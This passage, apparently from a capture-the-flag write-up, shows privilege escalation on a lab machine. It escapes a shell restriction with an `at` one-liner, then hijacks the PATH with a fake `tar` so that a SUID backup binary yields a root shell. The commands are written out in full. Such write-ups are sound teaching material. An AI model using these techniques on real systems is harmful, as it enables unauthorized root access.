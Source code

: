 That means we can not able to run suid binaries as root.

we could use `at` command to bypass shell restriction
```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

![](screenshots/shell-restriction.png)


Now, Running strings on that bianry found 1 command, That this bianry is executing
```bash
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```

Here we can exploit `tar` command absolute path as bianry is not using `tar` command absolute path

```bash
cd /tmp
echo "/bin/bash" > tar
chmod 777 tar
export PATH=/tmp:$PATH
/usr/bin/pandora_backup
```

![](screenshots/pandora-rooted.png)
